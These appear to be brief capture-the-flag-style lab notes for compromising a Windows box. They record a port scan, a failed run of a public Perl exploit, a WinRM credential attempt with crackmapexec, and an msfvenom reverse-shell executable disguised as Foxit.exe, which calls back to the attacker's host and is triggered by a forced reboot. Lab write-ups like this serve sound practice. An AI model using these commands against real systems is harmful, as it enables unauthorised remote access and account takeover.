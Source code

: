 # export IP=192.168.243.44

### Rustscan
```
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP > rust_scan_raw.txt

cat rust_scan_raw.txt | grep -v unknown > rust_scan.txt
```

### FTP
no anonymous login

### Completely stuck, so go with writeups.

`./16145.pl 192.168.243.44 7778 192.168.49.243 6666` is not working

```
perl 16145.pl 192.168.243.44 7778 192.168.49.243 6666
```

### Try creds from sqlite
crackmapexec winrm $IP -u names.txt -p cooows


### Runas last try
c:\windows\syswow64\windowspowershell\v1.0\powershell.exe whoami



### Okay let's just get root then
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=6667 -f exe -o Foxit.exe

shutdown -r -t 10 && exit
```

A good box that with special Privilege Escalation. It requires shutdown the server.